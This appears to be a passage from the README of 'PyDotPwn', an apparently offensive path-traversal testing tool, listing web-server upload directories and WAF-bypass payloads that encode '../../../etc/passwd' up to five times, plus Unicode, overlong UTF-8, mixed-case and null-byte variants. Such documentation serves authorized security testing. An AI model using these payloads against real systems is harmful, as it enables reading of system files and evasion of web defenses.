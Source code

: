 ### 🌐 Real-World Subdirectory Prefixes

PyDotPwn includes **90+ legitimate subdirectory prefixes** found in actual enterprise deployments:

#### Web Server Directories
```
/var/www/html/uploads/        # Apache default upload directory
/var/www/images/              # Common image directory
/var/www/files/               # Common file storage
/var/www/assets/              # Static assets directory
/var/www/media/               # Media files directory
```

#### Content Management Systems
```
/var/www/wordpress/wp-content/uploads/    # WordPress uploads
/var/www/drupal/sites/default/files/      # Drupal files
/var/www/joomla/images/                   # Joomla images
```

#### Windows IIS Directories
```
C:\inetpub\wwwroot\uploads\               # IIS default uploads
C:\inetpub\wwwroot\images\                # IIS images
C:\inetpub\wwwroot\files\                 # IIS files
```

#### Application-Specific Directories
```
/opt/app/uploads/             # Custom application uploads
/home/app/public/files/       # User application files
/usr/share/nginx/html/media/  # Nginx media directory
```

## 🛡️ Multi-Level WAF Bypass

### 5-Level URL Encoding

PyDotPwn implements **quintuple URL encoding** to bypass sophisticated WAFs:

```bash
Level 1: /var/www/images/../../../etc/passwd
Level 2: /var/www/images/%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
Level 3: /var/www/images/%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
Level 4: /var/www/images/%25252e%25252e%25252f%25252e%25252e%25252f%25252e%25252e%25252fetc/passwd
Level 5: /var/www/images/%2525252e%2525252e%2525252f%2525252e%2525252e%2525252f%2525252e%2525252e%2525252fetc/passwd
```

### Advanced Encoding Variations

- **Unicode Normalization**: `%uff0e%uff0e%2f` (Unicode dots)
- **UTF-8 Overlong**: `%c0%ae%c0%ae%2f` (Invalid UTF-8 sequences)
- **Double Encoding**: `%252e` (Double URL encoding)
- **Mixed Case**: `%2E%2e%2F` (Case variation bypass)
- **Null Byte Injection**: `%00` (Legacy null byte attacks)
